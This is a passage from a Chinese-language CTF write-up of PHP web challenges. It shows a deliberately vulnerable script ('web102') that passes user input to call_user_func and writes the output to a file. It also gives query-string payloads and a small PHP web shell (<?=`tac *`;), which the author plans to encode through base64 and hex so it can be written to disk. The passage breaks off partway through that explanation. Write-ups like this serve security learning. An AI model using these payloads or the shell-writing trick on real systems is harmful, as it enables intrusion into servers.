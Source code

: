 **payload**

```
?v1=1&v2=echo new ReflectionClass&v3=;
```

最后将 0x2d改为 -  ，发现只有35位，没想到最后一位要爆破。。。看运气咯



### web102

```
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?>
```

`substr`

> **substr** ( string `$string` , int `$start` [, int `$length` ] ) : string
>
> 返回字符串 `string` 由 `start` 和 `length` 参数指定的子字符串。

这里 `$s = substr($v2,2);`截取了v2的[2:],从第三个字符到末尾

`call_user_func`

> **call_user_func** ( [callable](php/language.types.callable.html) `$callback` [, [mixed](php/language.pseudo-types.html#language.types.mixed) `$parameter` [, [mixed](php/language.pseudo-types.html#language.types.mixed) `$...` ]] ) : [mixed](php/language.pseudo-types.html#language.types.mixed)
>
> 第一个参数 `callback` 是被调用的回调函数，其余参数是回调函数的参数。

这里v1，v3可控，v2要保证能写shell，又要保证能为数字。

这里百思不得其解，看了师傅的wp后，真的要感叹一下，师傅们的创造力啊！

```
<?=`tac *`;  
```

这是我们要执行的命令，进行hex编码后为：3c3f3d60746163202a603b ，发现其中有字母
于是在此之前进行base64编码一次
